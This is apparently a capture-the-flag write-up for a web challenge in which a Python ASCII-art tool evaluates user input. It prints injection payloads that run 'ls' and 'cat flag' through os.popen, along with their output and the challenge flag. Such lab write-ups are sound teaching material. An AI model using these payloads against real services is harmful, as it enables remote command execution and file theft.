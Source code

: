 
# Challenge Name: Python Art


![date](https://img.shields.io/badge/date-18.03.2021-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![crypto category](https://img.shields.io/badge/category-Web-blueviolet.svg)   
![level](https://img.shields.io/badge/level-Easy-blue.svg)
![score](https://img.shields.io/badge/score-50-blue.svg)



## Detailed solution

Let's open the challenge link http://18.196.160.18:3333/ . We have an ASCII art tool that take our input and convert it to ASCII art

![image](https://user-images.githubusercontent.com/72421091/113364096-8b5e2d00-934a-11eb-93af-05b86b5b5843.png)

Checking our request, it's a POST to /send with the data name = our input  

Let's check the page source after printing view-source:http://18.196.160.18:3333/send 

![image](https://user-images.githubusercontent.com/72421091/113364404-4d153d80-934b-11eb-8c3c-4636c14188e4.png)

We can see the printed data and a weird comment tag that contains the data used in request and "is not defined" 

I started exploiting the input, i used the os.popen() to execute "ls" command ```__import__('os').popen('ls').read()```  

After printing i checked the page source. At the comment tag we can see the command output 

```
    <!-- app.py
flag
static
templates
 -->
``` 

Let's modify our payload to read the **flag** file using cat ```__import__('os').popen('cat flag').read()``` 

Checking the page source and we found our flag   

```
    <!-- FLAG{Congratz_U_PWNED_MY_PANTING}
 -->
```

## Flag

```
FLAG{Congratz_U_PWNED_MY_PANTING}
```
